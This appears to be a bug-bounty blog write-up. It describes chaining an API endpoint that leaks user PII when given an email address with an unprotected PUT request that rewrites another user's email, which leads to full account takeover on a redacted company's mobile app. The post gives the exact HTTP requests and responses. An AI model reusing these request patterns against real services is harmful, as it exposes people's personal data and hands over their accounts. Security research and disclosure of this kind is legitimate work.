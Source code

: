 ```yaml
---
description: How I found a critical bug in API...
title: API Misconfiguration lead to Full ATO
date: 2024-04-02 08:00:00 -0600                           # Change the date to match completion date
categories: [WebHacking]                   # Change Templates to Writeup
tags: [bugbouny, redacted, webhacking, hacking]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image:                # Add infocard image here for post preview image
---
```


Hey ! Today I’m going to share with you an amazing found I made on a big company chaining multiple bugs and misconfigurations on their API :)

## Let's go !

![enter image description here](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExMGgxdmJpdTBiMHlxbnFtcW1pbzF1ajVwNWx2dWUzbGtyOGhqaDVrciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/CjmvTCZf2U3p09Cn0h/giphy.gif)

First of all, when I recon a target, I like looking for lost apks on obscure websites on the internet

So I went to my favorite apk websites :  [https://apkcombo.com](https://apkcombo.com),  [https://apkmonk.com](https://apkmonk.com)  and  [https://apkpure.com](https://apkpure.com)

![enter image description here](https://apkpure.net/static/imgs/website_screen_v1.jpg)


After some research, I found an interesting APK :  myapp.redacted last updated on 2016

So I downloaded the APK, launched Nox and BurpSuite and started hacking

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExbW5qdGg4cG9hcGxubWc2dDdsMGdsaWlmbmF5ZTNsOHRmcWFkcnp0ciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/YQitE4YNQNahy/giphy.gif)

## Browsing the APK

I browsed through the APK for about ten minutes and it literally seemed broken. It used the api “http://appli.redacted.com"

Using BurpSuite Mapping, I found a very interesting endpoint: /fr/v2.0/Clients/%2520/ 👀👀

And after a few tries, I understood that I had to add the user’s email, so I made the request :

    GET /fr/v2.0/Clients/%2520/victim@gmail.com HTTP/1.1 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 595 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264945","lat":0,"long":0,"nom":"Sakayanagi","pays":"FR","code_postal":"86100","prenom":"Arisu","email":"victim@gmail.com","newsletter":1,"date_creation":"2023-11-20T17:22:20","mobile":"0689123912","statut":true,"type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"0000001525","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46C61A4B-D390-5BBD-8C20-BF2702327716","token":"254EF7C844BF25B845D7B1D49DD22753407AC6D989028B589931935FC2D352CB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

**FIRST BUG : PII Leakage via API Misconfiguration**

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExOHdneHJzZHprZWZxaXdsaXo0OTNjODczdXh6ZW01cWxjcmxmcWpvMyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/kdQuvu0LtCEjxYgTcS/giphy.gif)

## No done yet... !

So from that moment I decided to go down the rabbit hole to find other vulnerabilities

And after some research I found another endpoint that used a PUT method :

    PUT /fr/v2.0/Clients/8000040264945 HTTP/1.1 
    Content-Type: application/x-www-form-urlencoded 
    Content-Length: 401 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1 
    
    type=1&email=victim@gmail.com&device=e91480e2a8eb83af&android=1&nom=&prenom=&cp=86100&mobile=&pays=&token=dZJKFETVSRWwzz4olPqvF0%3AAPA91bEZA4Mvt5AttKlMRzfQ70nT-Hv7BHBlwix8WI9taP91n-_XEnMHnegOVQfNn0No6XDEuvPn_-rP7MufTLLta3ZilKYVjP0-rp9X_krK0yTLTgbasPYSP5s9kQKkG_PCntlQmkma&code_identite=&mag_prefere=0000001525&newsletter=1&alerte_mag=1&alerte_cata=1&alerte_promo=1&lat=&long=

This request was logged when I tried to modify my VIP card details on the APK (8000040264945)

BUTTT, and this is the whole point of this chaining, I could obtain the VIP card code of any user from their email with the previous request. I think you understand where I’m going with this… 😈

I quickly created another account on the platform, I retrieved my VIP code with the first request then in the second request I replaced my email address with  [attacker@gmail.com](mailto:attacker@gmail.com)

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache 
    X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 582 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264956","lat":0,"long":0,"nom":"DUJARDIN","pays":"FR","code_postal":"75002","prenom":"Victim","email":"attacker@gmail.com","newsletter":1,"date_creation":"2023-12-10T10:26:27","mobile":"+33655421789","statut":"actif","type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46B61A3B-D390-4CCD-8C20-BF2701317816","token":"254EF7C844BF78B845D7B1D09DD22753407AC6D459028B578731935FC2D352BB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

![enter image description here](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExdDI2ZXQ0ZGM5eWRpOWJnaWxtcThmajI0ZWh1cGRpdm5nOHpmN3F3OCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYtVHSxngR3lC/giphy.gif)


## Achieve Full 0-click ATO

After that, I created an account on the platform with  [attacker@gmail.com](mailto:attacker@gmail.com), I checked my email and when I connected I came across my previous account (the one I replaced email with the PUT request) !! 🎉🎉

And that’s the end of the story on how my extroardinary chaining allowed me to achieve an account takeover.

## Tips

1 - Always look for APKs belong to the company
2 - Privilegate old/lost APKs
